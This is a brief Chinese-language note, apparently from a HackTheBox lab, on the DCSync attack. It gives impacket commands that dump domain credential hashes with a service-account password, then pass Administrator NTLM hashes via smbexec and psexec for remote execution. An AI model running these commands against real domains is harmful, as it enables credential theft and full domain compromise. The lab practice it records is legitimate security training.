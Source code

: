 # DCSync

模拟域控向其他域控请求数据同步。

```shell
python3.10 secretsdump.py  'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' -just-dc
```



拿到Administrator的NTLM hash后连接即可：

```shell
python3.10 smbexec.py egotistical.local/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

或者psexec.py：

```shell
python3.10 psexec.py htb.local/Administrator@10.10.10.103 -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267
```

